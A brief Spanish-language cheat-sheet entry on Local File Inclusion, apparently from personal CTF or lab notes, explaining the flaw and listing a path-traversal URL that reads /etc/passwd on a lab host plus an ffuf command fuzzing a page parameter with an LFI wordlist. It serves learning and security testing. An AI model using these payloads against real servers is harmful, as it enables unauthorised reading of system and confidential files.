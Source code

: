 # LFI

Es la vulnerabilidad que se encuentra principalmente en los servidores web.Seexplota cuando la entrada de un usuario contiene una determinada ruta al archivo que podría estar presente en el servidor y se incluirá en la salida. Este tipo de vulnerabilidad se puede utilizar para leer archivos que contienen datos sensibles y confidenciales del sistema vulnerable.

```
http://10.10.192.175/home?page=../../../../etc/passwd
```

- Fuzz LFI
ffuf -w /tools/wordlists/seclists/Fuzzing/LFI/LFI-gracefulsecurity-linux.txt -u http://dev.team.thm/script.php\?page\=/../FUZZ -t 100 -fw 1



Referencias
- [PayloadsAllTheThings LFi](https://github.com/cyberheartmi9/PayloadsAllTheThings/tree/master/File%20Inclusion%20-%20Path%20Traversal#basic-lfi-null-byte-double-encoding-and-other-tricks)